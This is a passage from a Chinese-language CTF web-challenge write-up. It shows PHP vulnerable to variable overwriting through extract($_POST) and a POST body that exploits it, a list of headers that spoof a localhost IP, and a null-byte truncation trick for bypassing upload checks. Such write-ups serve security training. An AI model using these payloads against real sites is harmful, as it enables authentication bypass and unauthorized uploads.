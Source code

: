 还是弱类型, 用上面的 `0e` md5 即可

## 变量覆盖

```php
<?php
extract($_POST);
if ($pass == $thepassword_123) { ?>
    <div class="alert alert-success">
    <code><?php echo $theflag; ?></code>
    </div>
<?php } ?>
<?php } ?>
```

注意这里的 `extract()` 函数

![20220720143546](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720143546.png)

POST 构造数据覆盖掉原来的 `$pass` 和 `$thepassword_123`

`pass=123&thepassword_123=123`

## 伪装者

![20220720143718](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720143718.png)

显然是 Header 头伪造 IP

```
Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
```

## 上传绕过

![20220720150417](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720150417.png)

提示要上传 PHP, 对文件名进行了验证

![20220720150437](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720150437.png)

源代码中有 upload path

filename 00 截断不行, 但 upload path 截断可以

![20220720150633](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720150633.png)

